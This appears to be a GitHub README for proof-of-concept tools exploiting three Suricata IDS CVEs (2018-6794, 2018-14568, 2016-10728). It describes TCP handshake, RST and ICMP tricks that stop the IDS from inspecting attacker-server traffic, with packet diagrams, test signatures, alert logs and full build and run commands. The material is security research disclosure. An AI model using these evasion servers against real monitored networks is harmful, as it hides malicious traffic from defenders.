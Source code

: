 ## Disclaimer

These programs is for Educational purpose ONLY. Do not use it without permission.

## inject_server: Proof-Of-Concept for CVE-2018-6794.

If as a server side you break a normal TCP 3 way handshake packets order and inject some response data before 3whs is complete then data still will be received by the client but some IDS engines may skip content checks on that.

```
Client    ->  [SYN] [Seq=0 Ack=0]           ->  Evil Server     # Client starts a TCP 3-way handshake
Client    <-  [SYN, ACK] [Seq=0 Ack=1]      <-  Evil Server     # Server responses as it should, but ...
Client    <-  [PSH, ACK] [Seq=1 Ack=1]      <-  Evil Server     # It sends HTTP response before the 3whs is completed
Client    <-  [FIN, ACK] [Seq=83 Ack=1]     <-  Evil Server     # Moreover it finishes TCP session 
Client    ->  [ACK] [Seq=1 Ack=84]          ->  Evil Server     # Client finishes TCP 3whs by sending ACK packet and confirms data from server
Client    ->  [PSH, ACK] [Seq=1 Ack= 4]     ->  Evil Server     # Then it sends a HTTP GET request as nothing wrong happened
```

Suricata IDS < 4.0.4 is prone to this issue: HTTP or Stream-TCP signatures will not alert on the injected content.
We do not see any alerts on an evil http response data if we apply the following signatures against PoC network traffic 

```
alert tcp any any -> any any (msg: "TCP BEEN NO_STREAM RULE"; flow: no_stream; content: "been"; sid: 1; )
alert tcp any any -> any any (msg: "TCP BEEN ONLY_STREAM RULE"; flow: only_stream; content: "been"; sid: 2; )
alert http any any -> any any (msg: "HTTP BEEN RULE"; content: "been"; sid: 3; )
alert tcp any any -> any any (msg: "TCP GET NO_STREAM RULE"; flow: no_stream; content: "GET"; sid: 4; )
alert tcp any any -> any any (msg: "TCP GET ONLY_STREAM RULE"; flow: only_stream; content: "GET"; sid: 5; )
alert http any any -> any any (msg: "HTTP GET RULE"; content: "GET"; sid: 6; )

03/02/2018-11:08:13.012990  [**] [1:1:0] TCP BEEN NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.101:80 -> 192.168.235.1:56581
03/02/2018-11:08:13.013610  [**] [1:4:0] TCP GET NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:5:0] TCP GET ONLY_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:6:0] HTTP GET RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
```

## rst_server: Proof-Of-Concept for CVE-2018-14568.

Windows clients are able to process TCP data even if they arrived shortly after TCP RST packet. Some IDSes process this correctly and try to match data after RST but some stops inpecting TCP stream after RST was received.

```
Client    ->  [SYN] [Seq=0 Ack=0]           ->  Evil Server     # Client starts a TCP 3-way handshake
Client    <-  [RST, ACK] [Seq=0x0 Ack=1]    <-  Evil Server     # Server responses with TCP RST
Client    <-  [SYN, ACK] [Seq=1 Ack=1]      <-  Evil Server     # And SYN-ACK shortly after RST
           ... 3whs continues ...
```

Suricata IDS is still prone to this issue: HTTP or Stream-TCP signatures will not alert on this TCP session.

```
alert tcp any any -> any any (msg: "TCP BEEN NO_STREAM RULE"; flow: no_stream; content: "been"; sid: 1; )
alert tcp any any -> any any (msg: "TCP BEEN ONLY_STREAM RULE"; flow: only_stream; content: "been"; sid: 2; )
alert http any any -> any any (msg: "HTTP BEEN RULE"; content: "been"; sid: 3; )
alert tcp any any -> any any (msg: "TCP GET NO_STREAM RULE"; flow: no_stream; content: "GET"; sid: 4; )
alert tcp any any -> any any (msg: "TCP GET ONLY_STREAM RULE"; flow: only_stream; content: "GET"; sid: 5; )
alert http any any -> any any (msg: "HTTP GET RULE"; content: "GET"; sid: 6; )

05/03/2018-19:13:43.270632  [**] [1:4:0] TCP GET NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:53434 -> 192.168.235.101:80
05/03/2018-19:13:43.471128  [**] [1:1:0] TCP BEEN NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.101:80 -> 192.168.235.1:53434
```

## icmp_server: Proof-Of-Concept for CVE-2016-10728.

Server should reply with ICMP message type "Destination Unreachable" code "Port Unreachable" if a UDP packet was sent to a closed UDP port. IDS may interpret ICMP Unreachable answers on the same way as TCP RST packets and stop or limit traffic inspection of this UDP stream. If a normal UDP answer follows the ICMP message then attacker bypasses UDP checks of traffic from his server. Note that normal clients close connections if ICMP Dest. Unreachable was received so we interchange IP addresses and UDP ports in ICMP message's attached UDP so client does not accept such ICMP message but IDS does.

```
Client    ->  [UDP Req]                  ->  Evil Server     # Client starts UDP session by sending a packet 
Client    <-  [ICMP] [Type=3, Code=3]    <-  Evil Server     # Server responses with *improved* ICMP Destination Unreachable first
Client    <-  [UDP Resp]                 <-  Evil Server     # And with UDP answer as usual
```

Suricata IDS < 3.1.2 is prone to this issue: UDP signatures will not match on packets from Evil Server.

```
alert udp any any -> any any (msg: "UDP BEEN RULE"; content: "been"; sid: 1; )
alert udp any any -> any any (msg: "UDP HELLO RULE"; content: "hello"; sid: 2; )

05/03/2018-03:44:11.016635  [**] [1:2:0] UDP HELLO RULE [**] [Classification: (null)] [Priority: 3] {UDP} 192.168.235.100:46599 -> 192.168.235.101:80
```

This techniques may be applied for other Intrusion Detection or Network Monitoring tools and systems.

## Author and Credits
Kirill Shipulin from Positive Technologies (@kirill_wow)
Slides from my Hackfest 2018 talk [available](https://www.slideshare.net/KirillShipulin/how-to-bypass-an-ids-with-netcat-and-linux)

## Usage
```
git clone https://github.com/kirillwow/ids_bypass.git
cd ids_bypass
make
# inject server
sudo iptables -A OUTPUT -p tcp --sport 80 --tcp-flags RST RST -j DROP
sudo ./inject_server # print help
sudo ./inject_server -i eno16777736 -p 80
# rst server
sudo iptables -A OUTPUT -p tcp -o eno16777736 --sport 80 -m owner --uid-owner 0 --tcp-flags RST RST -j ACCEPT
sudo iptables -A OUTPUT -p tcp -o eno16777736 --sport 80 --tcp-flags RST RST -j DROP
sudo ./rst_server # print help
sudo ./rst_server -i eno16777736 -p 80
# icmp server
sudo iptables -A OUTPUT -o eno16777736 -p icmp --icmp-type destination-unreachable -m owner --uid-owner 0 -j ACCEPT
sudo iptables -A OUTPUT -o eno16777736 -p icmp --icmp-type destination-unreachable -j DROP
sudo ./icmp_server # print help
sudo ./icmp_server -i eno16777736 -p 80
```


![alt PoC](https://github.com/kirillwow/ids_bypass/raw/master/screenshot.png)
